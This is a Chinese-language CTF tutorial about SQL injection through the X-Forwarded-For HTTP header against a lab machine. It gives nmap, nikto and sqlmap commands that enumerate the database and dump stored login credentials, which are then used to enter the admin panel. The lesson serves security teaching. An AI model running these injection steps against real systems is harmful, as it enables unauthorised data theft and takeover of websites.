










# CTF夺旗全套视频教程-网络安全：P11：CTF夺旗-sql注入(X-Forwarded-For) 🚩

在本节课中，我们将学习SQL注入漏洞，特别是如何利用HTTP请求头中的`X-Forwarded-For`字段进行注入攻击。我们将从信息收集开始，逐步演示如何发现漏洞、利用工具进行自动化注入，并最终获取系统后台的访问权限。

---

## 信息探测与环境介绍


上一节我们介绍了SQL注入的基本概念，本节中我们来看看具体的实验环境。



我们的实验环境包含两台机器：
*   **攻击机**：IP地址为 `192.168.1.104`，运行Kali Linux系统。
*   **靶场机器**：IP地址为 `192.168.1.105`，运行着一个存在漏洞的Web应用程序。


我们的目标是挖掘该Web应用的漏洞，最终获得系统的登录权限。



首先，我们需要对靶场机器进行信息探测，了解其开放的服务和系统信息。我们将使用`Nmap`工具。

以下是使用`Nmap`进行扫描的基本命令：
```bash
nmap -sS -v 192.168.1.105
```
*   `-sS`: 进行TCP SYN扫描。
*   `-v`: 显示详细输出。

为了获取更全面的信息（如操作系统、服务版本），我们可以使用更强大的扫描选项：
```bash
nmap -T4 -A -v 192.168.1.105
```
*   `-T4`: 指定扫描速度，`T4`为较快速度。
*   `-A`: 启用操作系统检测、版本检测、脚本扫描和路由跟踪功能。



扫描结果显示，靶场机器只开放了**80端口**的HTTP服务，服务器是`nginx`，开发语言为`PHP`。

---

## 发现Web应用与登录入口

在确定了HTTP服务后，我们需要探索该服务的敏感目录和页面。我们将使用`nikto`工具进行Web漏洞扫描。

以下是使用`nikto`扫描的命令：
```bash
nikto -host http://192.168.1.105
```
扫描结果中，我们发现了一个管理员登录页面（例如 `/admin/login.php`）。





访问该登录页面后，我们尝试使用常见的弱口令（如 `admin/admin`, `admin/123456`）进行登录，但均告失败。因此，我们转向寻找该网站可能存在的安全漏洞。



---



## 使用AWVS进行漏洞扫描

为了系统性地发现Web应用漏洞，我们使用**AWVS**（Acunetix Web Vulnerability Scanner）这款功能强大的漏洞扫描器。它能够检测多种Web安全漏洞，并且更新迅速。

操作步骤如下：
1.  在AWVS中添加新的扫描目标（Target），地址为 `http://192.168.1.105`。
2.  选择“Full Scan”（完全扫描）模式并开始扫描。
3.  等待扫描完成并分析报告。

在扫描结果中，AWVS报告了一个**高危漏洞**：在HTTP请求头的 `X-Forwarded-For` 字段中存在基于时间的**SQL盲注**漏洞。报告提供了漏洞描述和攻击细节。



---

## 利用SQLMap进行自动化注入

既然发现了SQL注入点，我们接下来使用 **SQLMap** 工具来自动化利用该漏洞，提取数据库信息。

根据AWVS的提示，注入点位于HTTP头的 `X-Forwarded-For` 字段。我们使用以下命令让SQLMap进行探测和利用：

```bash
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” --dbs --batch
```
*   `-u`: 指定目标URL。
*   `--headers`: 指定存在注入点的HTTP头，`*` 号表示注入的位置。
*   `--dbs`: 枚举数据库。
*   `--batch`: 以非交互模式运行，所有问题都选择默认答案。

SQLMap确认漏洞存在，并开始逐个字符地猜解数据库名。它发现了两个数据库：`information_schema`（系统库）和 `photoblog`（用户库）。

接下来，我们枚举 `photoblog` 数据库中的所有表：
```bash
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog --tables --batch
```
发现其中包含 `users` 表，这很可能存放着登录凭证。

然后，我们枚举 `users` 表的字段名：
```bash
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog -T users --columns --batch
```
字段名为 `login` 和 `password`。



最后，我们提取这两个字段的具体数据：
```bash
sqlmap -u “http://192.168.1.105” --headers=“X-Forwarded-For: *” -D photoblog -T users -C “login,password” --dump --batch
```
SQLMap成功提取出数据：
*   `login`: **admin**
*   `password`: **P4SSW0RD** (此处为示例，实际可能是MD5哈希值，SQLMap会尝试破解)

---

## 登录系统后台

获得用户名和密码后，我们返回之前发现的管理员登录页面。
1.  在用户名输入框填入 `admin`。
2.  在密码输入框填入 `P4SSW0RD`。
3.  点击登录。

成功进入系统后台。在后台中，我们可以进行各种管理操作，例如文件上传、内容管理等，这标志着我们已成功利用SQL注入漏洞获得了该Web应用的控制权。

---

## 总结

本节课中我们一起学习了如何利用HTTP头中的 `X-Forwarded-For` 字段进行SQL注入攻击。整个过程涵盖了以下几个关键步骤：
1.  **信息收集**：使用Nmap和Nikto探测目标信息。
2.  **漏洞发现**：使用AWVS扫描器发现SQL注入点。
3.  **漏洞利用**：使用SQLMap工具自动化注入，提取数据库名、表名、字段名和具体数据（如用户名和密码）。
4.  **获取权限**：使用窃取的凭证成功登录系统后台。



核心要点在于：**SQL注入可能发生在任何用户可控的输入点**，包括URL参数、表单字段，甚至HTTP请求头。在CTF比赛或实际渗透测试中，合理利用自动化工具（如SQLMap）可以极大提高效率。安全人员必须对所有用户输入保持警惕，并进行严格的过滤和验证。